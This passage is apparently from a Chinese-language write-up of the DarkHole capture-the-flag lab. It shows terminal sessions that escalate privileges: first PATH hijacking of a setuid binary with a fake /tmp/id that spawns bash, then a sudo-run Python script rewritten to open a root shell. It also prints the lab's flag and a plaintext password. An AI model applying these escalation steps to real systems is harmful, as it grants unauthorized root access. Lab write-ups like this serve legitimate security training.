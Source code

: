 ```
```

然后再走上面提权到john的操作
(我的理解是 system("id") 会默认在/tmp/id先找? 如果我们自己写一个/tmp/id并chmod的话 就会执行我们的命令即 /bin/bash)
```
www-data@darkhole:/home/john$ ls -l
ls -l
total 32
-rwxrwx--- 1 john john     1 Jul 17  2021 file.py
-rwxrwx--- 1 john john     8 Jul 17  2021 password
-rwsr-xr-x 1 root root 16784 Jul 17  2021 toto
-rw-rw---- 1 john john    24 Jul 17  2021 user.txt
www-data@darkhole:/home/john$ ./toto
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
www-data@darkhole:/home/john$ echo "/bin/bash" > /tmp/id
echo "/bin/bash" > /tmp/id
www-data@darkhole:/home/john$ chmod 777 /tmp/id
chmod 777 /tmp/id
www-data@darkhole:/home/john$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@darkhole:/home/john$ ./toto
./toto
john@darkhole:/home/john$ 

```

已经有权限读了
```
john@darkhole:/home/john$ cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}
john@darkhole:/home/john$ cat password
cat password
root123
```

**flag**: DarkHole{You_Can_DO_It}

**提权到root**
当然可以进一步提权到root

Q: 为什么要ssh?
A: 其实发现不用ssh msf的shell也能打... 但能ssh还是ssh吧(本地终端更好看233)
```
john@darkhole:/home/john$ echo "import os;os.system('/bin/bash');" > file.py
echo "import os;os.system('/bin/bash');" > file.py
john@darkhole:/home/john$ chmod 777 file.py
chmod 777 file.py
john@darkhole:/home/john$ sudo python3 file.py
sudo python3 file.py
Sorry, user john is not allowed to execute '/usr/bin/python3 file.py' as root on darkhole.
john@darkhole:/home/john$ sudo /usr/bin/python3 /home/john/file.py
sudo /usr/bin/python3 /home/john/file.py
root@darkhole:/home/john# 

```
